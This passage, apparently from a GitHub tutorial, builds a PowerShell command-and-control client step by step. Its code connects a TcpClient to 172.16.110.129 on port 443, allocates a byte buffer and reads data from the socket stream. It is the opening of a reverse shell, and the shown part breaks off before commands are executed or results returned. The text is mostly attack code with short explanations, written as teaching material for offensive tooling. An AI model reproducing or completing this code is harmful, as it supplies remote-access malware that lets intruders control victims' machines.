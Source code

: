 Ok, so this is enough to create our channel between our [C2](https://en.wikipedia.org/wiki/Command_and_control), now we need to able to exchange data between the two sides.

We need a buffer to receive any data that we will send to our Powershell script, in order words, we need a Byte Array to save every byte that we send, this can be acomplished by creating a simple vector in Powershell:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff}; # Here

$client.Close();
```

Take a look at [Powershell Arrays](https://ss64.com/ps/syntax-arrays.html), the %{} operator, give us a shortcut to use ***foreach***, so basically I am get a 4K buffer and putting in every byte the value 0xFF (255). Now we need a way to read the stream of our tcpclient, that stream is all the data that are flowing to our socket:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream();

$client.Close();
```

Now, with this Stream, we can access the ***read*** method, which will read any data in our socket and save in some buffer, we will send our ***$buff*** variable to this and his length.

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

Write-Host $buff[0]; # For debugging

$client.Close();
```
